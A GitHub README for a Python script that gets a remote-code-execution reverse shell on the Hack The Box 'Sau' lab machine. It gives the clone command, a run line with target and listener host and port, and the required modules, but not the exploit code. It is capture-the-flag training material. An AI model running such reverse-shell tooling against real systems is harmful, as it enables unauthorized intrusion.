

# SAU Machine Hackthebox

## Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `raw sau_rce.py script` .

Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -rhost <sau_machine_ip> -lhost <your_ip> -lport <port_for_listener>
```

## EXAMPLES




---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

```requierements.txt
requests==2.28.1
pwn==1.0
```

You can install them runnig:

```bash
pip install -r requirements.txt
```
